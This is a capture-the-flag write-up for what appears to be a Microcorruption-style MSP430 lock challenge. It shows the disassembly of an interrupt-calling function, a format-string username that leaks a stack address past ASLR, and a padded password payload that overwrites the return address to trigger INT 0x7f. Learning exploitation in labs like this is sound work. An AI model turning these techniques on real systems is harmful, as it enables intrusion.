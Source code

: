 
Sadly, running the program got the error `insn address unaligned` Apparently somewhere went wrong. It could be an error in my code, or it could be undefined program behaviour because afterall, I did not execute the whole program, but just part of it. Either way, it was too troublesome to troubleshoot, and I saw an easier alternative.

### Correct solution
I noticed that there was a function casually lying in the program 
```
48ec <_INT>
48ec:  1e41 0200      mov	0x2(sp), r14
48f0:  0212           push	sr
48f2:  0f4e           mov	r14, r15
48f4:  8f10           swpb	r15
48f6:  024f           mov	r15, sr
48f8:  32d0 0080      bis	#0x8000, sr
48fc:  b012 1000      call	#0x10
4900:  3241           pop	sr
4902:  3041           ret
```
It basically takes a value from the stack, and executes it as an `INT <value in the stack>`. Now, that sounds interesting! Afterall, our password input is stored in the stack. This gives us the chance to call `INT 0x7f`. Let's try it out!

Username: `%x%x%x%x` gives us:
```
Username (8 char max):
>>0000ccd400000000
Password:
```
Then our password input is `"0x6161616161616161debc61617f00"`. `0xdebc` is the return address to the post-ASLR `<_INT>` function. `0x7f00` is read by `mov	0x2(sp), r14`, causing this function to call `INT 0x7f`. The `0x61` characters are just padding.

And so, our door is unlocked! ヽ(´▽`) / 


END